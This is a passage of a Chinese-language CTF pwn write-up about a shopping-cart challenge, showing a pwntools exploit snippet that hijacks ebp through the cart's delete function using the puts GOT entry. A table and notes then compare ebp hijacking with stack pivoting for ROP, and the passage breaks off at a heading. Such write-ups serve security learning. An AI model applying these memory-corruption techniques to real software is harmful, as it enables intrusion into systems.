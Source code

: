```python
    action(delete,'1')

gdb.attach(io,"b * 0x08048C46\nc\np $ebp")

payload = '2\x00'+p32(myelf.got['puts'])+p32(1)+p32(ebp-0xc)+p32(0x0804B044)
action(delete,payload)

io.interactive()
```

这里断点我下到了delete函数返回后的一句，然后首先删除了前面25个节点，以便于输入的删除的参数是个位数，然后用0x00截断，使得delete可以正常删除我们的栈上的节点，并且第一个元素指向的地址还是需要是可读的，因为delete函数最后一样会打印iphone被从购物车中移除了，所以这里还用的是`myelf.got['puts']`。观察调试器结果如下：

```bash
gef➤  p $ebp
$1 = (void *) 0x804b044
```

果然ebp已经劫持了

#### 劫持ebp与栈迁移的异同


|          | 劫持ebp                                                      | 劫持esp(栈迁移)                                              |
| -------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| 途径     | 1.   在一个函数执行的过程中控制old_ebp内存，当函数leave时，即可劫持ebp    <br />2. 在劫持eip的前提下，找到可以修改ebp的gadget，然后劫持过去 | 劫持ebp的前提下，当函数leave时，即可劫持esp                  |
| 用途     | 1.   劫持ebp后，当前函数使用的参数和局部变量均根据ebp从栈上取值，故参数和局部变量均可被控      <br />2. 用于劫持esp | 用于ROP，或者扩大栈空间以完成ROP                             |
| 前提能力 | 关键内存写 or 劫持eip                                        | 劫持ebp                                                      |
| 扩大能力 | 1. 扩大可以控制的内存范围     <br /> 2. 可能控制ebp          | 1. 劫持eip    <br />2. 使程序满足一系列状态（内存，寄存器），即扩大可以控制的内存和寄存器范围 |


##### 关于栈迁移

- [CTF-wiki: stack-pivoting](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/fancy-rop-zh/#stack-pivoting)
- [和媳妇一起学Pwn 之 3x17](https://xuanxuanblingbling.github.io/ctf/pwn/2019/09/06/317/)

1. 栈迁移一般是ROP利用的前序步骤，目标是劫持esp寄存器到我们控制的内存上去，然后在ret的时候就可以进入我们布置好的ROP链
2. 栈迁移的原理是先控制ebp寄存器，然后通过leave在控制esp，然后ret。所以控制ebp是栈迁移的前序步骤
3. 例如在3x17这道题中，栈迁移是为了解决劫持了eip，但是不知道往哪跳的问题，因为从`劫持控制流`到`漏洞利用`之间还有程序状需要满足（例如函数参数，需要栈上或者寄存器的值要满足一定的条件）
4. 还有人说，栈迁移主要是为了解决栈溢出可以溢出空间大小不足的问题

所以可以说栈迁移就要劫持esp

##### 用途

栈迁移与劫持ebp的用途区别：

- 本题是劫持ebp后，通过函数逻辑中的输入控制了栈上的数据，这个输入到栈空间的位置，是由ebp决定的。
- 而栈迁移后面跟的是ROP，布置的ROP链跟esp相关。

##### 途径

劫持ebp的途径：
